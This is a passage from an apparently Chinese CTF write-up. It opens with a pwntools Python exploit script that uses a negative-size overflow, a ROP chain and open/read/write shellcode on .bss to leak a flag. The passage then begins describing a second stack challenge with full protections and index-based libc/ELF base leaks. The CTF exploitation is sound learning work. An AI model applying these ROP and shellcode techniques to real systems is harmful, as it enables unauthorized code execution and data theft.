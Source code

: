 ```python

print(">>> Shellcode on .bss")

sh.recvuntil(b"size?\n")
sh.send(b'-1')
sh.recvuntil(b"content?\n")
payload = b'a'*0x38
payload += p64(bss_addr + 0x100)
sh.sendline(payload)
sh.recvuntil(b'\x66\x6c\x61\x67')
flag_name = str(sh.recv(20))[2:-1]

sh.recvuntil(b"size?\n")
sh.send(b'-1')
sh.recvuntil(b"content?\n")
payload = b'a'*0x38 + p64(pop_rdi_ret) + p64(0)
payload += p64(pop_rsi_r15_ret) + p64(bss_addr + 0x100) + p64(0)
payload += p64(pop_rdx_r12_ret) + p64(0x300) + p64(0)
payload += p64(read_addr) + p64(main_addr)
sh.sendline(payload)
sh.recvuntil(b"done!\n")

payload = shellcraft.open("./flag{}".format(flag_name), 0, 0)
payload += shellcraft.read("rax", "rsp", 100)
payload += shellcraft.write(1, "rsp", 100)
sh.sendline(asm(payload))
sh.recvuntil(b"size?\n")
sh.send(b'-1')
sh.recvuntil(b"content?\n")
payload = b'a'*0x38
payload += p64(bss_addr + 0x100)
sh.sendline(payload)
print(sh.recvuntil(b"}"))
sh.interactive()
```

# ser_per_fa

~~在复现了在复现了(新建文件夹)~~

这题作为 week1 的最后一题，在栈题里应该也算比较高难度了

好好写写（肯定不是因为我只有这题是今天做的）

题目给出了源码，对于我这种 OI 什么都不知道的傻逼来说还是挺有用处的。

![vulnable](https://oss.nova.gal/img/image-20220212195118394.png)

防护全开，因此我们不仅需要找到 libc_base，还需要找到 elf_base

通过审计可以发现 dist 下标可控，因此泄露 libc_base 和 elf_base 还是很容易的
